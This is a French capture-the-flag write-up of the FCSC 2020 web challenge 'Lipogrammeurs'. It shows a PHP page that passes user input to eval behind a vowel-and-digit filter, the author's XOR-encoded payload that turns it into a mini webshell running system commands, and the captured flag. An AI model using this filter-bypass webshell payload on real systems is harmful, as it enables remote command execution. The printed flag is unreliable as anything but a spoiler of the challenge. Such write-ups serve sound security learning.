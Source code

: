 # Lipogrammeurs

Auteur: Ewaël

**Lipogrammeurs** est un des challenges web à 100 points du FCSC 2020 et dont voici l'énoncé:

![Lipogrammeurs](lipogrammeurs.png)

Le lien menant à une page avec le code suivant:

```php
<?php
    if (isset($_GET['code'])) {
        $code = substr($_GET['code'], 0, 250);
        if (preg_match('/a|e|i|o|u|y|[0-9]/i', $code)) {
            die('No way! Go away!');
        } else {
            try {
                eval($code);
            } catch (ParseError $e) {
                die('No way! Go away!');
            }
        }
    } else {
        show_source(__FILE__);
    }
```

Avec les voyelles et les chiffres filtrés, mais avec la contrainte de devoir envoyer une instruction pour exploiter `eval`, ma première idée de bypass le regex avec `?code[]=` n'était pas possible. Après quelques recherches je suis tombé sur un moyen d'obtenir un mini-webshell sans caractère alphanumérique grâce à un XOR entre deux symboles avec le modèle trouvé ici:

[https://gist.github.com/bilabar/aa25879110d29fce9b153d283b2642ed](https://gist.github.com/bilabar/aa25879110d29fce9b153d283b2642ed)

J'ai ainsi envoyé ```index.php?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=system&__=ls -all``` pour découvrir le fichier qui m'intéresse.

![ls](ls.png)

Puis j'ai affiché ce fichier avec ```index.php?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=system&__=cat .flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php``` pour récupérer le flag:

`FCSC{53d195522a15aa0ce67954dc1de7c5063174a721ee5aa924a4b9b15ba1ab6948}`
